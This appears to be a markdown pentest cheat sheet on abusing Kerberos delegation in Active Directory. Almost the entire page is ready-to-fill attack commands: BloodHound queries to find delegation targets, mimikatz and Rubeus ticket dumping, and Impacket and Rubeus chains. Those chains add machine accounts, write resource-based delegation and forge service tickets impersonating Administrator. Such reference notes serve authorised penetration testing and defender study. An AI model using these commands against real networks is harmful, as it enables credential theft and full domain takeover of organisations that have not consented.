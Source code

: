# Kerberos Delegation

## Find delegation
- `findDelegation.py "<domain>"/"<user>":"<password>"`
- With Bloodhound
  - Unconstrained
    - `MATCH (c:Computer {unconstraineddelegation:true}) RETURN c`
    - `MATCH (c:User {unconstraineddelegation:true}) RETURN c`
  - Constrained
    - `MATCH (c:Computer), (t:Computer), p=((c)-[:AllowedToDelegate]->(t)) RETURN p`
    - `MATCH (u:User), (c:Computer {name: "<MYTARGET.FQDN>"}), p=shortestPath((u)-[*1..]->(c)) RETURN p`

## Unconstrained delegation >>> Kerberos TGT >>> PassTheTicket
- UAC: ADS_UF_TRUSTED_FOR_DELEGATION
  - Force connection  with coerce
    - Get tickets 
      - `mimikatz privilege::debug sekurlsa::tickets /export sekurlsa::tickets /export`
      - `Rubeus.exe dump /service:krbtgt /nowrap`
      - `Rubeus.exe dump /luid:0xdeadbeef /nowrap`
      - `Rubeus.exe monitor /interval:5`

## Constrained delegation
- With protocol transition (any) UAC: TRUST_TO_AUTH_FOR_DELEGATION
  - Get TGT for user
    - Request S4u2self
      - Request S4u2proxy
  - `Rubeus.exe hash /password:<password>`
    - `Rubeus.exe asktgt /user:<user> /domain:<domain> /aes256:<AES 256 hash>`
      - `Rubeus.exe s4u /ticket:<ticket> /impersonateuser:<admin_user> /msdsspn:<spn_constrained> /altservice:<altservice> /ptt`
        - Altservice HTTP/HOST/CIFS/LDAP  >>> Kerberos TGS
  - `getST.py -spn '<spn>/<target>' -impersonate Administrator -dc-ip '<dc_ip>' '<domain>/<user>:<password>' -altservice <altservice>`
    - Altservice HTTP/HOST/CIFS/LDAP >>> Kerberos TGS

- Without protocol transition (kerberos only) UAC: TRUSTED_FOR_DELEGATION
  - Constrain between Y and Z
    - Add computer X
      - Add RBCD : delegate from X to Y
        - s4u2self X (impersonate admin)
          - S4u2Proxy X (impersonate admin on spn/Y)
            - Forwardable TGS for Y
              - S4u2Proxy Y (impersonate admin on spn/Z) 
  - add computer account
    - `addcomputer.py -computer-name '<computer_name>' -computer-pass '<ComputerPassword>' -dc-host <dc> -domain-netbios <domain_netbios> '<domain>/<user>:<password>'`
  - RBCD With added computer account >>> Kerberos TGS
    - `rbcd.py -delegate-from '<rbcd_con>$' -delegate-to '<constrained>$' -dc-ip '<dc>' -action 'write' -hashes '<hash>' <domain>/<constrained>$`
      - `getST.py -spn host/<constrained> -impersonate Administrator --dc-ip <dc_ip> '<domain>/<rbcd_con>$:<rbcd_conpass>'`
        - `getST.py -spn <constrained_spn>/<target> -hashes '<hash>' '<domain>/<constrained>$' -impersonate Administrator --dc-ip <dc_ip> -additional-ticket <previous_ticket>`
  - Self RBCD @CVE@
    - Like RBCD without add computer

## Resource-Based Constrained Delegation
- add computer account
  - `addcomputer.py -computer-name '<computer_name>' -computer-pass '<ComputerPassword>' -dc-host <dc> -domain-netbios <domain_netbios> '<domain>/<user>:<password>'`
- RBCD With added computer account
  - `Rubeus.exe hash /password:<computer_pass> /user:<computer> /domain:<domain>`
    - `Rubeus.exe s4u /user:<fake_computer$> /aes256:<AES 256 hash> /impersonateuser:administrator /msdsspn:cifs/<victim.domain.local> /altservice:krbtgt,cifs,host,http,winrm,RPCSS,wsman,ldap /domain:domain.local /ptt` >>> Admin
  - `rbcd.py -delegate-from '<computer>$' -delegate-to '<target>$' -dc-ip '<dc>' -action 'write' <domain>/<user>:<password>`
    - `getST.py -spn host/<dc_fqdn> '<domain>/<computer_account>:<computer_pass>' -impersonate Administrator --dc-ip <dc_ip>` >>> Kerberos TGT >>> Admin

## S4U2self abuse
- Get machine account (X)'s TGT
  - Get a ST on X as user admin
- `getTGT.py -dc-ip "<dc_ip>" -hashes :"<machine_hash>" "<domain>"/"<machine>$"`
  - `getST.py -self -impersonate "<admin>" -altservice "cifs/<machine>" -k -no-pass -dc-ip "DomainController" "<domain>"/'<machine>$'` >>> Admin